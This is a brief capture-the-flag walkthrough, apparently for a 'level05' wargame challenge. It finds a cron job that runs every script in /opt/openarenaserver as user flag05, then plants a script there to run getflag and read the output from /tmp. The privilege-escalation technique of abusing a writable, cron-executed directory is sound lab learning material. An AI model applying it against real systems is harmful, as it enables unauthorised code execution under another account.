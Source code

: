 ## When logging with the account level05 it say that we have a new mail

cat /var/mail/level05 

> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

cat /usr/sbin/openarenaserver

> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
> 	(ulimit -t 5; bash -x "$i")
> 	rm -f "$i"
> done

echo "getflag > /tmp/oui" > /opt/openarenaserver/script.sh
sleep 30
cat /tmp/oui
